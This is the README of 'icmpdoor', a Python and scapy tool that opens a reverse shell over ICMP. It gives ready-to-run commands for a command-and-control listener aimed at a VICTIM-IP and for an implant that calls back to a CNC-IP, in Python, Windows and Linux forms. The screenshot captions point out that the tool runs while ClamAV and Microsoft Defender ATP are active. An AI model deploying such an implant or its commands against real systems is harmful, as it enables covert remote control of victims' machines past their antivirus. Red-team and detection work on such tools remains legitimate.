 # icmpdoor - ICMP Reverse Shell
icmpdoor is an ICMP rev shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

[Read this article for more information.](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d VICTIM-IP (Command and Control)
./icmpdoor.py -i INTERFACE -d CNC-IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d VICTIM-IP (Command and Control)
./icmpdoor.exe -d CNC-IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d VICTIM-IP (Command and Control)
./icmpdoor -d CNC-IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  exit                  Exit Command and Control (E2)
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
